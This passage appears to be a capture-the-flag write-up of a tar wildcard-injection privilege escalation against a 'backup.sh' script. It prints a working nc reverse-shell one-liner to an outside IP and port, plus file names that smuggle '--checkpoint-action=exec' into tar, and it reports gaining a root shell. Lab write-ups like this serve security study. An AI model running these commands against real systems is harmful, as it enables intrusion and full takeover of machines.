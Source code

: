 We conducted a thorough examination of the 'backup.sh' file and uncovered a critical security flaw within its code. This script is responsible for archiving everything in the current directory into a '.tgz' file. However, the noteworthy detail here is the presence of an asterisk * at the end of the code. This seemingly innocuous wildcard character can be strategically exploited using a technique known as wildcard injection, providing attackers with a means to escalate privileges within the system.

```
simpleuser@simple:~$ echo "mkfifo /tmp/lhennp; nc 192.168.254.129 4444 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
<in/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
simpleuser@simple:~$ chmod +x shell.sh
chmod +x shell.sh
simpleuser@simple:~$ echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > "--checkpoint-action=exec=sh shell.sh"
simpleuser@simple:~$ echo "" > --checkpoint=1
echo "" > --checkpoint=1
simpleuser@simple:~$ ls
ls
 backup.sh      '--checkpoint=1'                         shell.sh
 backupzip.tar  '--checkpoint-action=exec=sh shell.sh'   user.txt
simpleuser@simple:~
```

Taking advantage of the identified vulnerabilities, we strategically set up a listener using netcat (nc) to establish a covert communication channel with the target system. This method allowed us to execute commands and ultimately gain a root-level shell, thereby achieving full control over the compromised system. :

![Root](root.PNG)


